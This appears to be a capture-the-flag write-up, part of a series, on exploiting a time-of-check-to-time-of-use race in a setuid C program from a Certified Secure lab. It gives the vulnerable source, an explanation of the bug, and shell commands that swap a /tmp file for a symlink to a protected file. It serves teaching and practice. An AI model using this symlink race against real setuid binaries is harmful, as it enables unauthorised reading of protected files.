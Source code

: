 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 4"
---
```


![Logo](/assets/images/belts-black.png)


We're finally getting closer to the end of the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. This time we'll analyse another classic vulnerability - **Time of check to time of use (TOCTOU)**. At its root, the vulnerability is a class of [race condition](https://en.wikipedia.org/wiki/Race_condition). As the [Wikipedia article](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) states:
> **TOCTOU**, pronounced "TOCK too" is a class of software bug caused by changes in a system between the checking of a condition (such as a security credential) and the use of the results of that check.

The vulnerability in this level is actually pretty straight-forward to spot. Although race-conditions are usually difficult to exploit reliably, in this case things are easier, as we'll see.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})
* [Binary Master: Lieutenant - Level 1]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %})
* [Binary Master: Lieutenant - Level 2]({{ site.baseurl }}{% post_url 2016-02-23-binary-master-lieutenant-2 %})
* [Binary Master: Lieutenant - Level 3]({{ site.baseurl }}{% post_url 2016-03-02-binary-master-lieutenant-3 %})

## 0 - Discovery

Let's see what mitigation techniques we have here, if any, using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:

```bash
$ checksec.sh --file level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   level4
```
So both **NX bit** and **stack canary** are enabled. Sounds difficult to exploit but let's not worry just yet and have a look at the source code:

```c
/*
 * Nice replacement for 'tail -f'.
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv) {
	FILE* fp;
	char ch;
	int pos = 0;
	int len = 0;

	if (argc != 2) {
		printf("Usage: %s <file>\n", argv[0]);

		return -1;
	}
	
[1]	seteuid(getuid());                                                 
	fp = fopen(argv[1], "r");
	
	if (fp == NULL) {
		char error[50];
		snprintf(error, 49, "Error opening file %s\n", argv[1]);
		fprintf(stderr, "%s", error);       
 
		return -1;
	}
	
	fclose(fp);
[2]	seteuid(1006);    
	
	for (;;) {
[3]		fp = fopen(argv[1], "rb");

		if (fp == NULL) {
			return -1;
		}

		fseek(fp, 0, SEEK_END);
		len = ftell(fp);
	
		fseek(fp, pos, SEEK_SET);

		while (pos < len) {
			ch = fgetc(fp);
			pos++;
			printf("%c", ch);
		}

		fclose(fp);
		sleep(1);
	}

	return 0;
}
```

First, a bit about the functionality of the application:
* The code at **[1]** _sets the effective user id_ to the actual user id running the process. The effective user id is what the OS checks when making a decision whether to allow an operation or not. To understand more about real and effective user ids, check [this link](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id#32456814). 
* Basically this call will drop the privileges temporarily (remember we have a setuid program) to check if the real user has privileges to open a file or not.
*  The _seteuid()_ call at **[2]** then restores the privileges by setting the effective user id to 1006 (level5), which is the actual owner of the binary:

```
$ id
uid=1005(level4) gid=1005(level4) groups=1005(level4)
$ ls -alh /levels/level4
-rwsr-s--- 1 level5 level4 7.7K May 12 12:36 /levels/level4
```

## 1 - Vulnerability

Although the program will check if the real user has privileges to open the file specified as first parameter,
another _fopen()_ call is performed at **[3]** without any verification, basically introducing the TOCTOU vulnerability. So in order to exploit this we'll do a few simple stes:
* Create a file in the /tmp folder, for which the application will have access.
* While the application is in the _for_ loop waiting for modifications on the file, replace it with a symbolic link to /home/level5/victory. At this point the level5 privileges have been regained so we'll have read access.

## 2 - Exploit 

As said before, exploiting this is very straight-forward:

```
$ echo 123 > /tmp/file
$ /levels/level4 /tmp/file &
[1] 11482
$ ln -fs /home/level5/victory /tmp/file
```

## 3 - Profit

```

  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
             
Subject: Victory!

Congrats, you have solved level4. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level4 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level5. If you want, you can log in
as level5 with password   [REDACTED]
```

That's it for now. The [final level]({{ site.baseurl }}{% post_url 2016-03-17-binary-master-lieutenant-5 %}) which we'll see next was the most interesting for me. We'll perform a Man-in-the-Middle attack on a well-known cryptographic encryption scheme.

